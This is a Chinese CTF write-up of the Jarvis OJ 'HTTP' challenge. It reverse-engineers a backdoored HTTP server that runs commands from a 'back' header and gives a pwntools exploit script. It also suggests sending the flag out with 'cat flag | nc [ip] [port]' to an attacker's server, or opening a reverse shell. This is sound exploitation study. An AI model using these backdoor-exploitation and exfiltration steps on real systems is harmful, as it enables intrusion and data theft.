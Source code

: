 ```yaml
---
title: Jarvis OJ - HTTP の Write-Up
date: 2020-09-03 18:45:08
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
---
```

## Step 1

&emsp;&emsp;运行程序和Guess一样也没有回显，猜测也是一个开放端口的操作，checksec一下：

![](/img/HTTP/HTTP1.png)

<!-- more -->

## Step 2

&emsp;&emsp;直接进入逆向代码阶段，IDA打开程序，首先是main函数。果然又是一个socket服务器端模型，监听端口为0x70F即1807:

![](/img/HTTP/HTTP2.png)

&emsp;&emsp;根据伪代码，这个sub_40137C函数就是处理函数了，看下这个函数：

![](/img/HTTP/HTTP3.png)

&emsp;&emsp;又牵扯到一堆函数，一个一个看下，首先是sub_40125D函数：

![](/img/HTTP/HTTP4.png)

&emsp;&emsp;结合ASC II码，函数中间最长的if判断应该改写为：

```Python
if ( v6 <= 3
    	|| s[v6 - 1] != '\n'
    	|| s[v6 - 2] != '\r'
    	|| s[v6 - 3] != '\n'
    	|| s[v6 - 4] != '\r' )
	continue;
```

&emsp;&emsp;通过这个结构我们发现这是将HTTP请求包的Header和Body部分分开进行处理。这里主要是针对Header部分的处理是通过sub_40116C函数：

![](/img/HTTP/HTTP5.png)

&emsp;&emsp;“User-Agent:  ”的数据放在v4中由sub_400FAF函数先做个判断，此外Header中需要有个“back: ”的参数，且该参数将由sub_40102F函数处理。先看下这个函数和这个奇怪的“back: ”参数：

![](/img/HTTP/HTTP6.png)

&emsp;&emsp;这个函数看起来存在问题，提及到了可以执行shell命令的popen函数，错误回复信息中也提到了“command”的字眼，猜测是个可以导致命令执行的重点函数。

&emsp;&emsp;回头去看下处理“User-Agent:  ”字段的sub_400FAF函数：

![](/img/HTTP/HTTP7.png)

&emsp;&emsp;首先是通过sub_400D30函数得到s，然后将s与“User-Agent:  ”提交的数据循环做异或，看下sub_400D30函数：

![](/img/HTTP/HTTP8.png)

&emsp;&emsp;sub_400CEA函数：

![](/img/HTTP/HTTP9.png)

&emsp;&emsp;sub_400C86函数：

![](/img/HTTP/HTTP10.png)

&emsp;&emsp;大体上来说这个函数对数据进行一系列操作，但是并不需要了解细节。因为在sub_400FAF函数中发现sub_400D30函数操作的off_601CF0位置的数据，和我们的输入没有任何关系。所以理论上说sub_400D30函数的结果对于我们来说就是个固定的数值，只需要控制程序执行这个函数，然后直接读取最终数值就可以。

&emsp;&emsp;最后再看下sub_40116C函数中最后提到的sub_4010DF函数：

![](/img/HTTP/HTTP11.png)

&emsp;&emsp;这就是个普通的提示函数，没什么重要信息。

## Step 3

&emsp;&emsp;经过伪代码的分析，发现这个大致类似一个Webshell的方式。我们需要在HTTP的Header中提供User-agent 字段以及 back 字段。其中User-agent 字段的数据类似Webshell的password，与程序中的数据做对比。而back 字段是要执行的命令，程序收到包做了验证之后就会执行提交的命令，然后将命令执行结果在响应包的Body中返回。

&emsp;&emsp;根据上一步的分析，我们需要调试程序找到我们需要的User-agent 字段的数据，通过hopper发现直接在0x400fca位置下个断点就可以：

![](/img/HTTP/HTTP12.png)

&emsp;&emsp;根据sub_400d30函数，执行完之后结果会放到RAX寄存器中去：

![](/img/HTTP/HTTP13.png)

&emsp;&emsp;gdb attach上去下断点（下在主进程上）：

![](/img/HTTP/HTTP14.png)

&emsp;&emsp;然后nc上去会fork一个子进程，输入按要求的payload，触发sub_400D30函数：

![](/img/HTTP/HTTP15.png)

&emsp;&emsp;主进程断在我们想要的地方，发现了函数输出完之后，RAX寄存器中的数据：2016CCE

![](/img/HTTP/HTTP16.png)

下面就是EXP脚本的编写了：

```Python
from pwn import *

sh = remote('127.0.0.1', 1807)

key = '2016CCRT'

password = ''
num = 0
for x in key:
	password += chr(ord(x) ^ num)
	num += 1
print "password: " + password

command = 'cat flag'

payload = ""
payload += "GET / HTTP/1.1\r\n"
payload += "User-Agent: %s\r\n" % (password)
payload += "back: %s\r\n" % (command)
payload += "\r\n"
payload += "\r\n"
print "payload: " + payload

sh.sendline(payload)
sh.recv()
sh.close()
```

&emsp;&emsp;本地运行通过：

![](/img/HTTP/HTTP17.png)

![](/img/HTTP/HTTP18.png)

## Step 4

&emsp;&emsp;但是远程执行时，首先不知道flag文件格式。其次根据本地调试结果来看，回显的内容是在服务端，无法到达客户端，客户端只能通过Content-Length 字段得知了命令执行输出结果的长度。所以有以下几种方法：

* 通过一台公网服务器监听某个端口, 然后让目标服务器去执行`cat flag | nc [ip] [port]`命令将`cat flag`的输出结果发送给公网服务器的指定端口

* 使用`awk`等字符串处理命令来逐个字符读取flag，然后对这个字符进行判断是不是等于某一个字符，根据判断的结果产生不同的输出我们就可以根据这个输出的不同来判断这个我们猜测的字符是不是正确

* 最暴力的方法，直接反弹shell
